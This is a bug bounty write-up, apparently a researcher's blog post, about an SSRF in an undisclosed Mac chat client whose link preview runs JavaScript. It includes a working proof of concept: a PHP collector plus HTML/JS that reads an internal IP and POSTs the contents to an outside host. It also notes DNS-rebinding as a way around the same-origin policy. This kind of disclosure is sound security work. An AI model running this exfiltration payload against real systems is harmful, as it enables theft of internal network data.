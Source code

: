 ```yaml
---
layout: post
title: "BugBounty | A Simple SSRF"
tags: [bugbounty, SSRF]
comments: true
---
```


I was working on a private program which i cannot disclose
---

First of all, its web assets have several subdomains. After I tested it for a while, I plan to look at the mac client.

The mac client has an chat interface where i found a SSRF.

The following is the whole process

After installation, sign up for login, then I see a chat interface.

Send a URL

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/1.png)
It seems to preview the url, return a title and favicons

I use my server ip to test. Then received

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t3.png)
Found that is the browser's ua header

Then I tested it http://127.0.0.1 https://127.0.0.1 file://etc/passwd ....

Tested a lot of common internal ip

But

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t1.png)
![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t2.png)
No effect

Then I tried the subdomain brute force, as well as some asset discovery sites to find internal ip

Until there is an ip

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t4.png)
Seems to be successful

Then I quickly submitted the vulnerability

But

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t5.png)
As written above, we can only get a very small amount of content.

After testing, I found that it will also execute js because it is browser ua

  
 
    <html><p id='d1'></p>
    <script>
        function get(url) {
            try {
                var req = new XMLHttpRequest();
                req.open('GET', url, false);
                req.send(null);
                if(req.status == 200)
                    return req.responseText;
            } catch(err) {
            }
            return null;
        }
        var role = get('https://google.com');
        document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
    
![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t6.png)

Can successfully get Google returns the content length

Does not seem to be blocked by Same Origin Policy

Then we can get any internal network content

**POC**

xxx.php

    <?php
    file_put_contents("save.txt", $_POST['cc'] . "\n", FILE_APPEND);
    ?>
    
poc.html

    <html><p id='d1'></p>
    <script>
    function get(url) {
        try {
            var req = new XMLHttpRequest();
            req.open('GET', url, false);
            req.send(null);
            if(req.status == 200)
                return req.responseText;
        } catch(err) {
        }
        return null;
    }
    function post(url,content){
        var req = new XMLHttpRequest();
        req.open("POST", url, true);
        var formData = new FormData();
        formData.append("cc", content);
        req.send(formData);
    }
    var role = get('https://Internal ip');
    post('https://xxxxxxxxxxx.com/xxx.php',escape(role));
    document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
Then check save.txt (You can also use the Burp Collaborator client)

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t8.png)
Url decoding

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t9.png)

We are successful in getting the full content of any address on the internal network.

**If Same Origin Policy blocks**

Bypass Same Origin Policy with DNS-rebinding to retrieve  Internal server .

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t23.png)

Details from https://github.com/mpgn/ByP-SOP

Finally 
![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t11.png)

I got the highest bounty reward for this private project.

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t22.png)

